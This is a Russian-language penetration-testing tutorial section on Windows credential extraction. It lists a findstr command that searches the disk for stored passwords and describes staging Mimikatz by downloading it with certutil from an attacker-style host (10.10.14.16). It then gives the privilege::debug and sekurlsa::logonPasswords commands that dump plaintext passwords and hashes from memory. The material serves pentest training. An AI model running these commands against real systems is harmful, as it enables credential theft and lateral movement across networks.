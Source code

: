#### Извлечение секретов и учетных данных

Яркими представителями этой категории являются следующие методы повышения привилегий:

    Взлом менеджеров паролей пользователей по причине небезопасной конфигурации
    Обнаружение секретов и учетных данных в логах и истории команд
    Извлечение учетных данных из оперативной памяти
    Доступ к файлу, хранящемуся хеши пользовательских паролей
    Извлечение учетных данных из конфигурации Групповых Политик

#### Поиск секретов и паролей в ОС

В первую очередь мы помним, что можно попытаться самостоятельно поискать пароли в различных файлах ОС при помощи команд
терминальной оболочки, например:

> cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Эта команда выполняет поиск строки "password" внутри всех файлов с расширениями .xml, .ini, .txt и .config в текущем
диске C:.

Более подробно, каждая часть команды выполняет следующие действия:

    cd C:\ — переходит в корневую папку диска C:
    findstr — команда для поиска строк в файлах
    /s — выполняет поиск строк во всех подпапках
    /p — пропускает файлы с непечатными символами
    /i — игнорирует регистр символов при поиске строк
    /n — выводит номер строки, содержащей строку
    /m — выводит только имя файла, если файл содержит совпадение

Таким образом, после выполнения команды будут выведены имена файлов, в которых найдена строка "password", а также номер
строки и сама строка с первым вхождением "password" в каждом файле.

Для повышения привилегий в ОС также существуют скрипты-энумераторы, которые отлично справляются с поиском и извлечением
паролей самостоятельно.

Для ОС Windows это скрипт WinPeas:

### Извлечение учетных данных из оперативной памяти

Самым ярким примером здесь будет извлечение учетных данных из оперативной памяти процессов.

Факт:

В Windows для реализации механизма HTTP Digest Authentication для поддержки SSO (Single Sign On) требуют знание
вводимого пароля, а не только его хеша. Поэтому разработчики Windows решили хранить пароли пользователей в открытом
виде. Для извлечения паролей и хешей из оперативной памяти можно использовать инструмент Mimikatz.

#### Mimikatz

Mimikatz — инструмент, реализующий функционал Windows Credentials Editor и позволяющий извлекать учетные данные
пользователей Windows.

Дополнительную информацию по данному инструменту можно получить по следующим ссылкам:

Что такое Mimikatz: руководство для начинающих — https://habr.com/ru/company/varonis/blog/539340/
Справка по mimikatz — https://kali.tools/?p=5342
Применение Mimikatz

Для загрузки инструмента mimikatz необходимо перейти в папку с правами на запись, например в C:
>\Windows\System32\spool\drivers\color.

Далее следует загрузить mimikatz на целевую машину. Это можно сделать утилитой, позволяющей скачивать файл по сети
>certutil: certutil -urlcache -split -f http://10.10.14.16/mimikatz.exe m.exe

После запуска Mimi нужно указать следующую команду, которая предоставит текущей учетной записи права отладки процессов (
SeDebugPrivilege): privilege::debug
Следующая команда вернет список всех хранящихся на этой машине хешей и паролей в виде незашифрованного текста:sekurlsa::
logonPasswords

Условия для Mimikatz

Для того, чтобы Mimikatz успешно извлёк пароли и хеши, необходимы права SeDebugPrivilege, которые, как правило, есть у
Администратора и нечасто встречаются у рядового пользователя. Тем не менее, процедура извлечения учётных данных из
памяти необходима в рамках проведения работ по пентесту для возможности как вертикального, так и горизонтального
перемещения.